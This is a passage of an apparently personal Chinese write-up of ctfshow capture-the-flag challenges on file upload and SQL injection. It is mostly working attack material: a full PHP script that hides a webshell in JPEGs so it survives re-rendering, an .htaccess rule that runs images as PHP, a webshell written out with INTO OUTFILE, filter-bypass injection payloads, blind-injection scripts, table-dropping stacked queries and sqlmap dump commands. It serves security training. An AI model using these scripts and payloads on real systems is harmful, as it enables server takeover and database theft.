 11    In case of successful injection you will get a specially crafted image, which should be uploaded again.
 12
 13    Since the most straightforward injection method is used, the following problems can occur:
 14    1) After the second processing the injected data may become partially corrupted.
 15    2) The jpg_payload.php script outputs "Something's wrong".
 16    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
 17
 18    Sergey Bobrov @Black2Fan.
 19
 20    See also:
 21    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
 22
 23    */
 24		
 25    $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义
 26
 27
 28    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
 29        die('php-gd is not installed');
 30    }
 31
 32    if(!isset($argv[1])) {
 33        die('php jpg_payload.php <jpg_name.jpg>');
 34    }
 35
 36    set_error_handler("custom_error_handler");
 37
 38    for($pad = 0; $pad < 1024; $pad++) {
 39        $nullbytePayloadSize = $pad;
 40        $dis = new DataInputStream($argv[1]);
 41        $outStream = file_get_contents($argv[1]);
 42        $extraBytes = 0;
 43        $correctImage = TRUE;
 44
 45        if($dis->readShort() != 0xFFD8) {
 46            die('Incorrect SOI marker');
 47        }
 48
 49        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
 50            $marker = $dis->readByte();
 51            $size = $dis->readShort() - 2;
 52            $dis->skip($size);
 53            if($marker === 0xDA) {
 54                $startPos = $dis->seek();
 55                $outStreamTmp = 
 56                    substr($outStream, 0, $startPos) . 
 57                    $miniPayload . 
 58                    str_repeat("\0",$nullbytePayloadSize) . 
 59                    substr($outStream, $startPos);
 60                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
 61                if($extraBytes !== 0) {
 62                    while((!$dis->eof())) {
 63                        if($dis->readByte() === 0xFF) {
 64                            if($dis->readByte !== 0x00) {
 65                                break;
 66                            }
 67                        }
 68                    }
 69                    $stopPos = $dis->seek() - 2;
 70                    $imageStreamSize = $stopPos - $startPos;
 71                    $outStream = 
 72                        substr($outStream, 0, $startPos) . 
 73                        $miniPayload . 
 74                        substr(
 75                            str_repeat("\0",$nullbytePayloadSize).
 76                                substr($outStream, $startPos, $imageStreamSize),
 77                            0,
 78                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
 79                                substr($outStream, $stopPos);
 80                } elseif($correctImage) {
 81                    $outStream = $outStreamTmp;
 82                } else {
 83                    break;
 84                }
 85                if(checkImage('payload_'.$argv[1], $outStream)) {
 86                    die('Success!');
 87                } else {
 88                    break;
 89                }
 90            }
 91        }
 92    }
 93    unlink('payload_'.$argv[1]);
 94    die('Something\'s wrong');
 95
 96    function checkImage($filename, $data, $unlink = FALSE) {
 97        global $correctImage;
 98        file_put_contents($filename, $data);
 99        $correctImage = TRUE;
100        imagecreatefromjpeg($filename);
101        if($unlink)
102            unlink($filename);
103        return $correctImage;
104    }
105
106    function custom_error_handler($errno, $errstr, $errfile, $errline) {
107        global $extraBytes, $correctImage;
108        $correctImage = FALSE;
109        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
110            if(isset($m[1])) {
111                $extraBytes = (int)$m[1];
112            }
113        }
114    }
115
116    class DataInputStream {
117        private $binData;
118        private $order;
119        private $size;
120
121        public function __construct($filename, $order = false, $fromString = false) {
122            $this->binData = '';
123            $this->order = $order;
124            if(!$fromString) {
125                if(!file_exists($filename) || !is_file($filename))
126                    die('File not exists ['.$filename.']');
127                $this->binData = file_get_contents($filename);
128            } else {
129                $this->binData = $filename;
130            }
131            $this->size = strlen($this->binData);
132        }
133
134        public function seek() {
135            return ($this->size - strlen($this->binData));
136        }
137
138        public function skip($skip) {
139            $this->binData = substr($this->binData, $skip);
140        }
141
142        public function readByte() {
143            if($this->eof()) {
144                die('End Of File');
145            }
146            $byte = substr($this->binData, 0, 1);
147            $this->binData = substr($this->binData, 1);
148            return ord($byte);
149        }
150
151        public function readShort() {
152            if(strlen($this->binData) < 2) {
153                die('End Of File');
154            }
155            $short = substr($this->binData, 0, 2);
156            $this->binData = substr($this->binData, 2);
157            if($this->order) {
158                $short = (ord($short[1]) << 8) + ord($short[0]);
159            } else {
160                $short = (ord($short[0]) << 8) + ord($short[1]);
161            }
162            return $short;
163        }
164
165        public function eof() {
166            return !$this->binData||(strlen($this->binData) === 0);
167        }
168    }
169?>
```

在服务器里运行php脚本


然后就是将得到的图片进行上传抓包，rce


另外一提

用010Editor打开图片查看，如果可以看见这段字符即表示图片在服务段进行了二次渲染




#### web166

打开右键上传文件按钮发现要求上传zip文件


尝试上传一个zip文件发现可以下载，猜测存在包含点


用记事本打开zip文件，在里面插入一句话木马


抓包上传重发加入参数1，执行成功


后续读文件即可


#### web167

题目提示：`httpd`，通常指的是 **Apache HTTP Server**

>  .htaccess 文件是 Apache HTTP 服务器的目录级配置文件，它允许用户覆盖 Web 服务器的系统范围设置，而无需修改全局配置文件（例如 httpd.conf 或 apache2.conf）。

如果服务器开启了.htaccess，那我们就可以利用.htaccess将jpg或者png等后缀的文件，作为php文件解析

先进入题目要上传jpg文件


这里我们可以通过上传 .htaccess 文件，其内容设置如下：

```
AddType application/x-httpd-php .jpg
```

先利用抓包改文件类型将.htaccess文件上传


然后将web165的图片上传，点击下载图片进入页面并传入参数，执行成功


#### web168


---

## SQL注入

### 无过滤注入

#### web171

题目提示：

```
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

`$_GET['id']` 是从用户的 GET 请求中获取的值，未进行过滤，知道注入点为id处。

复制语句到navicat中创建的本地数据库中尝试，语句改为

```
select username,password from user where username !='flag' and id = '1' or id = '3' limit 1;
```

显示了id = 1的内容

若改成

```
select username,password from user where username !='flag' and id = '888' or id = '3' limit 1;
```

则会显示id = 3的内容（or语句）。

题目中id只有24行，猜测flag是否在第25行未显示

于是可以在题目id处输入 `999' or id = '25`未显示flag

输入`999 'or id = '26`得到flag


#### web172

本题与上一题类似，但题目显示

```
//检查结果是否有flag
    if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

表示如果 `$row` (**查询内容**）对象中的 `username` 属性的值不等于 `'flag'` ，就将 `$ret` 数组中的 `'msg'` 键对应的值设置为 `'查询成功'`

则查询内容中，应只查询password而不查询username。此处引入**联合查询**（就是union语句）。

id查询处输入

```
999' union select id,password from ctfshow_user2 where username = 'flag
```

即可。


#### web173

本题题目显示

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这段代码使用 `preg_match` 函数在 `json_encode($ret)` （**返回值**)的结果中搜索 `'flag'` （不区分大小写）。

如果没有匹配到，就设置 `$ret['msg'] = '查询成功'`

此处可以使用`hex()`函数对username进行转换,将其转化为16进制（也可以使用to_base64()函数将其转化为base64编码）

在id查询处输入

```
999' union select id,hex(username),password from ctfshow_user3 where username = 'flag
```

即可得到flag


#### web174

本题有点像特意出的考点

返回逻辑是

```
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这段代码的作用是：如果经过 `json_encode` 编码后的 `$ret` 中不包含 `'flag'` （不区分大小写）以及任何数字（0 到 9），就将 `$ret` 数组中的 `'msg'` 键对应的值设置为 `'查询成功'` 。

此处可以使用`replace()`将结果中的数字替换为数字键上方的符号，具体语句为：

```
` unionselect'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,0,'g'),1,'h'),2,'i'),3,'j'),4,'k'),5,'l'),6,'m'),7,'n'),8,'o'),9,'p') from ctfshow_user4 -- qwe
```

得到被转化后的flag

可以使用脚本对其进行转化：

```
flag = flag = 'ctfshow{bokglnof-lfle-knag-pnlk-bbibdmkpjmdb}'
for i in range(10):
    flag = flag.replace(chr(ord(str(i)) + 55),str(i))
    print(str(i),chr(ord(str(i)) + 55))
    print(flag)
```


#### web175

返回逻辑是

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

`/[\x00-\x7f]/i` 匹配的是 ASCII 字符范围内的字符（包括控制字符），不区分大小写。

[x00-x7f] 匹配ASCII值从0-127的字符
0-127表示单字节字符：数字，英文字符，半角符号，以及某些控制字符。
也就说，是以上字符的不会在页面显示出来。
那我们换个思路，不让在页面显示，写在某个文件里，然后查看文件内容。

此处直接写解题过程：

写入

```
999' union select 1,"<?php @eval($_POST['CMD']);?>" into outfile 'var/www/html/1.php
```

发现回显错误

于是将`<?php eval($_POST[1]);?>`在bp中先进行base64加密，后将其base64编码再进行URL编码，放回原句：

```
99' union select 1,from_base64("%50%44%39%77%61%48%41%67%5a%58%5a%68%62%43%67%6b%58%31%42%50%55%31%52%62%4d%56%30%70%4f%7a%38%2b") into outfile '/var/www/html/1.php
```

然后在url后输入`/1.php`检验是否成功，再在hackbar中使用post请求输入`1=phpinfo()`发现可以显示

然后使用蚁剑链接shell，并链接数据库(列表右键，选择database，连接)，数据类型为`MYSQLI`,用户和密码皆为`root`。

不知道密码可以在hackbar中用POST请求`1=system("ls")`找到api目录，然后输入`1=system("ls ./api/")`发现里面有个`config.php`，再输入`1=system("tac./api/config.php")`可以找到数据库名字，用户名和密码。

连接成功后点击ctfshow_web的表，点击执行即可看到flag


### 过滤注入

#### web176

payload：`99' or username='flag`

相当于一个万能密码，以后做SQL注入时可以先试试万能密码。


#### web177

空格过滤，知道后即可写出查询语句：

```
99'union/**/select/**/id,username,password/**/from/**/ctfshow_user/**/where/**/username='flag
```


#### web178

此题过滤了空格的同时将`/**/`也过滤了，payload如下

```
99'union%0bselect'1',(select`password`from`ctfshow_user`where`username`='flag'),3'
```


#### web179

同样还是过滤空格，%0a和%0b都给过掉了，可以用%0c，payload：

```
99'union%0cselect'1',(select`password`from`ctfshow_user`where`username`='flag'),3'
```

以后怀疑是空格过滤的话建议将下面的都试试

```
%09(制表符), %0a(换行), %0b(垂直制表符), %0d(回车), %a0(不间断空格),%oc(换页),/**/(注释)
```


#### web180

这题还是过滤空格

payload和179一样


#### web181

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select/i', $str);
  }
```

官方给的payload为

```
999'%0cor%0cusername='flag
```

*（但上面不是把`%0c`过滤了吗？？？）*

这里不用`%0c`的话可以用`||`代替`or`可以不用空格:

```
999'||username='flag
```


#### web182

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x00|\x0d|\xa0|\x23|\#|file|into|select|flag/i', $str);
  }
```

比上题多过滤了个`flag`，`like`秒了：

```
999'%0cor%0cusername%0clike%0c'%fl%
```


### 布尔盲注

#### web183

这里不能直接获取数据库中的信息，考虑使用盲注，盲注最好用脚本来注，官方给的脚本为

```

import requests
import time
url = "https://98f1d413-5832-4c10-85c9-f98ccdf3adc2.challenge.ctf.show/select-waf.php"
flagstr = "}abcdefghijklmnopqr-stuvwxyz0123456789{"
flag = ""
for i in range(0,40):
	for x in flagstr:
		data={
		"tableName":"`ctfshow_user`where`pass`regexp(\"ctfshow{}\")".format(flag+x)
		}
		response = requests.post(url,data=data)
		time.sleep(0.3)
		if response.text.find("user_count = 1;")>0:
			print("+++++++++++++++++++++++++++++++={} is right".format(x))
			flag += x
			break
		else:
			continue
	print(flag)
```

但如果使用的是https的URL，有证书什么的问题，最终用的脚本为

```
import requests
import time
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
url = "https://98f1d413-5832-4c10-85c9-f98ccdf3adc2.challenge.ctf.show/select-waf.php"
flagstr = "}abcdefghijklmnopqr-stuvwxyz0123456789{"
flag = ""
for i in range(0,40):
	for x in flagstr:
		data={
		"tableName":"`ctfshow_user`where`pass`regexp(\"ctfshow{}\")".format(flag+x)
		}
		response = requests.post(url,data=data,verify=False)
		time.sleep(0.3)
		if response.text.find("user_count = 1;")>0:
			print("+++++++++++++++++++++++++++++++={} is right".format(x))
			flag += x
			break
		else:
			continue
	print(flag)
```

运行等一会就能得到flag


#### web184

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

比上一题过滤多了一点，脚本如下

```
import requests
import string
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
url = 'https://e2e4cb90-a463-4e02-8431-8742ed2ab789.challenge.ctf.show/select-waf.php'
dic = string.digits+string.ascii_lowercase+'-{}'  # flag可能的字符
dic = [f"{ord(c):02x}" for c in dic]  # 将字符转为十六进制格式
# print(dic)
out = '0x63746673686f777b'  # 已经确定的部分
for j in range(0, 50):  # 为了确保flag完整输出，范围尽量大一点，观察到flag完全输出后结束运行即可
    for k in dic:
        # print(k)
        # payload = {'tableName': f"(ctfshow_user)where(pass)like'{out+k}%'"}  # 将每次更新后的out加上我们新增的一个猜测字符添加到payload
        payload = {'tableName': f"ctfshow_user group by pass having pass like {out+k}25"}
        # print(payload)
        re = requests.post(url, data=payload,verify=False)
        # print(re.text)
        if '$user_count = 1;' in re.text:
            print(k)
            out += k
            break  # 回显1说明我们猜正确了，跳出内层循环，继续猜下一位
    print(out)
```

将得到的十六进制编码转为字符串即是flag

 

#### web185

返回逻辑为

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

由于将数字也过滤掉了，所以要考虑字符串

利用SQL语句的特性，输入`select ture+true;`时会回显2，然后可以用`concat`函数将多个字符串连接起来，就能得到需要的字符串

ps：输入`select concat((true+true),true);`时回显的是21

运行脚本如下

```
import requests
import string
url="http://86e32926-bd35-4ee6-b855-70dc3c1d393e.challenge.ctf.show/select-waf.php"
s='0123456789abcdef-{}'
def convert(strs):
  t='concat('
  for s in strs:
    t+= 'char(true'+'+true'*(ord(s)-1)+'),'
  return t[:-1]+")"
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    d = convert(f'^ctfshow{flag+j}')
    data={
    'tableName':f' ctfshow_user group by pass having pass regexp({d})'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print("ctfshow"+flag)
      if j=='}':
        exit(0)
      break
```

*（这个脚本好像运行得比官方的还快，from csdn）*


#### web186

返回逻辑

```
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

正则表达式匹配了以下内容

```
特殊字符：* 、 \x09 （水平制表符）、 \x0a （换行符）、 \x0b （垂直制表符）、 \x0c （换页符）、 \0x0d （回车符）、 \xa0 、 % 、 < 、 > 、 ^ 、 \x00 、 # 、 \x23 （# ）、 | 、 \x26 （& ）、 ' 、 " 、 \ 。
字符串：file 、 or 、 select 、 and 、 flag 、 into 、 where 、 union 、 sleep 、 benchmark 。
数字：[0-9] 。
```

这题比上题过滤多出来了不涉及上题的方法，用上一题的脚本即可


#### web187

返回逻辑

```
    $username = $_POST['username'];
    $password = md5($_POST['password'],true);

    //只有admin可以获得flag
    if($username!='admin'){
        $ret['msg']='用户名不存在';
        die(json_encode($ret));
    }
```

这里md5里面的true表示表示以原始的 16 字节二进制格式返回计算得到的 MD5 哈希值，如果不传递这个参数或者传递 `false` （默认情况），`md5` 函数会返回 32 位十六进制的字符串形式的哈希值。

这里用到一个很奇妙的字符串 `ffifdyop`

经过md5加密后为 276f722736c95d99e921722cf9ed621c 

在转为字符串时会出现乱码 `'or'6É]é!r,ùíb`(这里很巧妙地实现了闭合)

or后面的第一个字母只要不是0，都会被认为是true，从而实现sql注入的绕过

所以直接输入`admin`和`ffifdyop`提交显示登录成功，然后点开f12在网络-响应里即可找到flag


#### web188

查询语句

```
$sql = "select pass from ctfshow_user where username = {$username}";
```

返回逻辑

```
 //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```

在 SQL 中，数字和字符串的比较是弱类型的，如果在比较操作中涉及到字符串和数字，SQL 会尝试将字符串转换为数字，那么只要字符串不是以数字开头，比较时都会转为数字 0 。

可以注意到查询语句中的username是没有单引号包裹的，这意味着输入数字时与数据库中数据名字比较的时数字而非字符串，关于密码的比较使用两个等号，也是弱类型比较，故可以用户名和密码都输入`0`，显示登录成功拿到flag


#### web189

查询语句

```
$sql = "select pass from ctfshow_user where username = {$username}";
```

返回逻辑

```
//用户名检测
  if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```

*(脚本有点长这里放文件)*

[脚本](D:\python project\web189.py)

**至此，可以总结出做布尔盲注题的要点：要找到两种回显值不同的情况，然后用`if`函数之类的来判断对错**


#### web190

这题挺有意思，写详细点

这里可以发现用户名处存在注入点(*就是因为只存在两种回显吧？*)

CSDN上一个师傅这么说

```
测试了一下，本题多了一个用户名判断。应该是强比较判断。盲注。
这里手工测试一下，很容易发现用户名处存在盲注。
只存在"密码错误"和"用户名不存在"。当我们用户名处成功注入时返回密码错误
```

这道题有两种脚本写法：

1、正常的判断数据库-表-列名

```
import requests
import string
url = "http://6342983e-9b94-4130-aa02-7ea94f19c94e.challenge.ctf.show/api/index.php"
out = ''
for j in range(1, 50):
    print(j)
    for k in range(32, 128):    #从 32 到 128 迭代，这是在尝试每个可能的 ASCII 码值
        # 猜解数据库名
        # data={
        #     'username': f"0'||if(ascii(substr(database(),{j},1))={k},1,0)#",  #这里的#很关键，把sql语句后面的部分注                                                                                 #释掉，从而不影响条件判断
        #     'password': '1'
        # }
 
        # 猜解表名
        # data={
        #     'username': f"0'||if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{j},1))={k},1,0)#",
        #     'password': '1'
        # }
 
        # 猜解列名
        # data={
        #     'username': f"0'||if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{j},1))={k},1,0)#",
        #     'password': '1'
        # }
 
        # 猜解 flag
        data = {
            'username': f"0'||if(ascii(substr((select f1ag from ctfshow_fl0g),{j},1))={k},1,0)#",
            'password': '1'
        }

        re = requests.post(url, data=data)
        if("\\u5bc6\\u7801\\u9519\\u8bef" in re.text):
            out += chr(k)
            print(out)
            break
```

2、一种很新的“**二分法**”(就是和中间值比大小，理论上比上面这种方法更高效)

```
import requests
import sys
url = "http://6342983e-9b94-4130-aa02-7ea94f19c94e.challenge.ctf.show/api"
flag = ""
for i in range(1,60):
    max = 127
    min = 32
    while 1:
        mid = (max+min)>>1
        if(min == mid):
            flag += chr(mid)
            print(flag)
            break
        #payload = "admin'and (ascii(substr((select database()),{},1))<{})#".format(i,mid)
        #ctfshow_web
        #payload = "admin'and (ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))<{})#".format(i,mid)
        #ctfshow_fl0g
        #payload = "admin'and (ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{},1))<{})#".format(i,mid)
        #id,f1ag
        payload = "admin'and (ascii(substr((select f1ag from ctfshow_fl0g),{},1))<{})#".format(i,mid)

        data = {
            "username":payload,
            "password":0,
        }
        res = requests.post(url = url,data =data)
        if "密码错误" == res.json()['msg']:
            max = mid
        else:
            min = mid
```


#### web191

题目将`ascii`过滤了，查sql官网网页发现可以用`ord()`代替，将上一题中的`ascii`换成`ord`即可


#### web192

返回逻辑

```
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

题目把`ascii``ord`都过滤了，用不了

想到SQL语句中输入`select * from user where username = 'admin' and 1=1`是可以返回值的

可以考虑直接用等于来判断flag字符

得到payload:

```
admin' and ((substr((select f1ag from ctfshow_fl0g),{},1)='{}'))#
```

移植到脚本中略作修改并加个字典就行


#### web193

本题将`substr`也过滤了，查找MYSQL的函数表发现可以用`left`函数，只是`left`函数不能像`substr`那样截取片段，只能从某个点开始截取后面的全部，所以要修改一下脚本


#### web194

这题`left``right`都过滤了，可以用`mid`，用法跟`substr`一样


### 堆叠注入

#### web195

这题属于**堆叠注入**（就是用`;`分隔使之执行两条SQL语句）

payload：

```
1;update`ctfshow_user`set`pass`=1
```

如此，会将所有的`pass`列的密码改成1，然后直接用0；1登录即可


#### web196

 本题限制了用户名的长度，限制用户名长度不能超过16个字符

输出flag的条件：

```
if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

其中 $row[0] 表示从数据库查询结果中提取的**某一行的第一个字段值**

但是``select`其实没有过滤，那么可以输入username为`1;select(9)`，password为9。当`$row`获取到第二个查询语句`select(9)`的结果集时，即可获得`$row[0]=9`，那么password输入9就可以满足条件判断。

这里目前还没查到预期解

*这里可以明白查询的原理是用户名对应相应的密码（查询结果），将查询结果与用户输入的密码对比，如果相同则返回值。*

而用`select(1)`加密码`1`可以查到的原因就是`select(1)`的查询结果就是`1`，对应了密码`1`，所以返回值


#### web197

将`update`过滤了，但这里可以有三个方法：

1、用`show tables`显示所有表，密码填`ctfshow_user`，在这个结果集里定然有一行的数据为`ctfshow_user`。

2、删表并重建一个同样表名的表：

```
0;drop table ctfshow_user;create table ctfshow_user(`username` varchar(100),`pass` varchar(100));insert ctfshow_user(`username`,`pass`) value(1,1)
```

再用1作用户名与密码登陆

3、更改列名

```
0;alter table `ctfshow_user` change `pass` `inno` varchar(255); alter table `ctfshow_user` change `id` `pass` varchar(255);
```

再爆破id拿到flag


#### web198

web197方法1


#### web199

web197方法1


#### web200

web197方法1

*(我宣布`show`直接封神)*


### sqlmap

#### web201

从这里开始练习sqlmap的使用

可以先随便提交一个1看下它调用的接口和请求的参数有哪些

发现`?id=1&page=1&limit=10`

在sqlmap根目录中打开PowerShell

先运行：

```
python .\sqlmap.py -u "http://b3c80098-8a58-4f38-b8d3-08b844613450.challenge.ctf.show/api/?id=" --user-agent=sqlmap --referer=ctf.show 
```

跑出是mysql数据库（记得把原来URL中那个`/sqlmap.php`删了）

然后在后面加上`--dbs`跑数据库名：

```
python .\sqlmap.py -u "http://b3c80098-8a58-4f38-b8d3-08b844613450.challenge.ctf.show/api/?id=" --user-agent=sqlmap --referer=ctf.show --dbs
```

存在名为 ctfshow_web 的数据库，使用 -D 指定这个库，--tables 指定查这个库下的所有表名：

```
python .\sqlmap.py -u "http://b3c80098-8a58-4f38-b8d3-08b844613450.challenge.ctf.show/api/?id=" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables
```

找到一个叫`ctfshow_user`的表

使用 -T 参数指定这个表，--columns 查该表下所有的列名：

```
python .\sqlmap.py -u "http://b3c80098-8a58-4f38-b8d3-08b844613450.challenge.ctf.show/api/?id=" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --columns
```

查出有id、username、pass三列

使用`--dump`命令跑出表的所有值：

```
python .\sqlmap.py -u "http://b3c80098-8a58-4f38-b8d3-08b844613450.challenge.ctf.show/api/?id=" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --dump
```

ps：讲究一点可以用-C 指定列：

```
python sqlmap.py -u http://32c7d026-d195-4074-a0f9-492c17dc1a2c.challenge.ctf.show/api/?id=1 --referer https://32c7d026-d195-4074-a0f9-492c17dc1a2c.challenge.ctf.show/sqlmap.php -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch
#--batch 是帮助我们在执行过程中自动选择
```

得到flag


#### web201

题目提示`使用--data 调整sqlmap的请求方式`

用上一题的最后一条语句，加上`--data "id=1"`就行：

```
python .\sqlmap.py -u "http://48960ed1-37ce-4305-85bf-35ebb7dc0570.challenge.ctf.show/api/" --data "id=1" --referer=ctf.show -D ctfshow_web -T ctfshow_user --dump
```

进行 post 注入的方法还可以先用 burpsuite 抓包，将请求包存为一个 txt 文件，再使用 -r 参数指定这个文件进行注入。


#### web203

题目提示：`使用--method 调整sqlmap的请求方式`

需要加上--headers="Content-Type: text/plain"，否则是按表单提交的，put接收不到，并且这里 api 后面需要加上 index.php，前两个没加可以，但这里不行，有点问题。

payload：

```
python .\sqlmap.py -u "http://0adf93df-6146-4708-b1be-2488cb90a08a.challenge.ctf.show/api/index.php" --referer=ctf.show --method PUT --header=Content-Type:text/plain --data="id=1" -D ctfshow_web -T ctfshow_user --dump  
```

一些问题：

```
Q:index.php怎么包含sql注入漏洞?
A:index.php 文件本身并不一定会包含 SQL 注入漏洞。SQL 注入漏洞的出现通常是由于在处理与数据库交互的代码中，没有正确地对用户输入进行过滤、验证或转义。例如，如果在 index.php 中编写的代码直接将用户输入拼接到 SQL 查询语句中，而没有进行适当的处理，就可能导致 SQL 注入漏洞。本题就是这样
Q：解释“需要加上--headers="Content-Type: text/plain"，否则是按表单提交的，put接收不到”
A:Content-Type 请求头用于告诉服务器发送的数据的类型,text/plain 表示发送的内容是纯文本格式,如果进行PUT请求时没有添加这个，服务器会默认按照表单提交的方式来处理您发送的数据，表单提交通常有特定的格式和编码规则，如果服务器按照表单的方式去接收和解析您发送的纯文本数据，就可能导致无法正确处理或接收不到您发送的数据。
```


#### web204

题目提示：`使用--cookie 提交cookie数据`

payload：

```
python .\sqlmap.py -u "http://5fc0ff90-a6c1-4a99-85be-4cfdd3549626.challenge.ctf.show/api/index.php" --referer=ctf.show --method PUT --cookie --header=Content-Type:text/plain --data="id=1" -D ctfshow_web -T ctfshow_user
 --dump
```

wp里`--cookie`后面还要等于f12里set-cookie里那堆东西，但不知道为什么我这里直接加`--cookie`就跑出flag了。查a说是在某些情况下，即使没有明确的 Cookie 值，`sqlmap` 也会按照默认的策略或基于它内部的某些机制来处理请求，从而能够得到一些结果。


#### web205

题目提示：`api调用需要鉴权`

抓包发现GET请求后面跟了个`/api/gettoken`，表示在访问 index.php 前都会先访问 getToken.php 

追加 --safe-url 参数设置在测试目标地址前访问的安全链接，将 url 设置为 api/getToken.php，再加上 --safe-preq=1 表示访问 api/getToken.php 一次：

```
python .\sqlmap.py -u "http://c7675a1e-8e18-4b90-a588-2568f4e0c2e6.challenge.ctf.show/api/index.php" --safe-url="http://c7675a1e-8e18-4b90-a588-2568f4e0c2e6.challenge.ctf.show/api/getToken.php" --safe-freq=1 --referer=ctf.show --method PUT --cookie="PHPSESSID=sd2gfm1libil8cg8hiv8r8rsi4" --header=Content-Type:text/plain --data="id=1" -D ctfshow_web -T ctfshow_user --dump
```

跑出来没有flag，怀疑是改了表名之类的，重新把这些跑一次，发现最终表名叫`ctfshow_flax`，最终payload：

```
python .\sqlmap.py -u "http://c7675a1e-8e18-4b90-a588-2568f4e0c2e6.challenge.ctf.show/api/index.php" --safe-url="http://c7675a1e-8e18-4b90-a588-2568f4e0c2e6.challenge.ctf.show/api/getToken.php" --safe-freq=1 --referer=ctf.show --method PUT --cookie="PHPSESSID=sd2gfm1libil8cg8hiv8r8rsi4" --header=Content-Type:text/plain --data="id=1" -D ctfshow_web -T ctfshow_flax --dump
```


#### web206

题目提示：`sql需要闭合`

发现查询语句`select id,username,pass from ctfshow_user where id = ('".$id."') limit 0,1;`的`id`被包裹了

由于payload是位于`$id`的位置，sql需要闭合的意思就是在查询之前将查询语句中的括号闭合，防止其影响查询，可以用`--prefix`为payload添加前缀，用`--suffix`为其添加后缀，这里前缀加上`)`使括号提前闭合，后缀加上`#`注释掉后面的部分

payload：

```
python .\sqlmap.py -u "http://2030185c-5472-4bc8-a5b2-29f586db1c64.challenge.ctf.show/api/index.php" --safe-url="http://2030185c-5472-4bc8-a5b2-29f586db1c64.challenge.ctf.show/api/getToken.php" --safe-freq=1 --referer=ctf.show --method PUT --cookie="PHPSESSID=dc1ecrk0tldp76v6uvsnp0cfpq" --prefix="')" --suffix="#" --header=Content-Type:text/plain --data="id=1" -D ctfshow_web -T ctfshow_flaxc --dump
(这里的表名又变了)
```


#### web207

题目提示`--tamper的初体验`

题目将空格过滤掉了，而`--tamper`的作用就是类似于将过滤掉的东西替换，这里将空格替换成`/**/`，用`--tamper=space2comment`，payload如下：

```
